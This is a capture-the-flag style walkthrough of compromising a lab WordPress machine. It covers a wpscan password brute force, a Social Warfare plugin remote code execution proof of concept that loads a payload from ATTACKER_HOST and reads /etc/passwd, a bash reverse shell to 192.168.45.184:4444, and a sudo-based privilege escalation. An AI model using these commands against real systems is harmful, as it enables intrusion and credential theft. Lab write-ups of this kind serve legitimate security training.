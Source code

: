 # NetworkEnumeration

```bash
192.168.156.78
PORT   STATE SERVICE
22/tcp open  ssh                   
80/tcp open  http
```

# Port Enumeration

This is a wordpress.

<img src="../Images/image-20230821173409258.png" alt="image-20230821173409258" style="zoom:80%;" />

## Plugin

<img src="../Images/image-20230821173434071.png" alt="image-20230821173434071" style="zoom:80%;" />

## Users

<img src="../Images/image-20230821173445289.png" alt="image-20230821173445289" style="zoom:80%;" />

## Brute Force

```bash
┌──(aaron㉿aacai)-[~/Desktop/pg/sosimple] 
└─$ wpscan --url "http://192.168.156.78/wordpress/" --usernames max --passwords /usr/share/wordlists/rockyou.txt
```

Get user `max` password.

<img src="../Images/image-20230821173607624.png" alt="image-20230821173607624" style="zoom:80%;" />

## RCE Exploit

[Social Warfare <= 3.5.2 - Unauthenticated Remote Code Execution (RCE)](https://wpscan.com/vulnerability/9259)

### Proof of Concept

```
1. Create payload file and host it on a location accessible by a targeted website. Payload content : "<pre>system('cat /etc/passwd')</pre>"

2. Visit http://WEBSITE/wp-admin/admin-post.php?swp_debug=load_options&swp_url=http://ATTACKER_HOST/payload.txt

3. Content of /etc/passwd will be returned 
```

### Create payload locally

<img src="../Images/image-20230821173712658.png" alt="image-20230821173712658" style="zoom:80%;" />

Setting up the http server, then access it on wordpress.

<img src="../Images/image-20230821173744005.png" alt="image-20230821173744005" style="zoom:80%;" />

## Change the payload

```bash
┌──(aaron㉿aacai)-[~/Desktop/pg/sosimple]
└─$ cat payload.txt               
<pre>system("bash -c '/bin/bash -i >& /dev/tcp/192.168.45.184/4444' 0>&1")</pre>
```

Then get shell.

<img src="../Images/image-20230821174116054.png" alt="image-20230821174116054" style="zoom:80%;" />

# PE

## Active ports

<img src="../Images/image-20230821174453393.png" alt="image-20230821174453393" style="zoom: 80%;" />

## Users

<img src="../Images/image-20230821174524962.png" alt="image-20230821174524962" style="zoom:80%;" />

## Useful software

<img src="../Images/image-20230821174609030.png" alt="image-20230821174609030" style="zoom:80%;" />

## Wordpress Files

<img src="../Images/image-20230821174627404.png" alt="image-20230821174627404" style="zoom:80%;" />

## max ssh_key

<img src="../Images/image-20230821174708176.png" alt="image-20230821174708176" style="zoom:80%;" />

## sudo -l

<img src="../Images/image-20230821175824333.png" alt="image-20230821175824333" style="zoom:80%;" />

User max can running `/usr/sbin/service` as user `steven`

Check on [GTFobins](https://gtfobins.github.io/gtfobins/service/)

<img src="../Images/image-20230821175921863.png" alt="image-20230821175921863" style="zoom:80%;" />

## Login to steven

<img src="../Images/image-20230821175943786.png" alt="image-20230821175943786" style="zoom:80%;" />

### Check sudo -l

<img src="../Images/image-20230821175959075.png" alt="image-20230821175959075" style="zoom:80%;" />

### Create the `server-health` file

<img src="../Images/image-20230821180443756.png" alt="image-20230821180443756" style="zoom:80%;" />

### Get root

<img src="../Images/image-20230821180417116.png" alt="image-20230821180417116" style="zoom:80%;" />
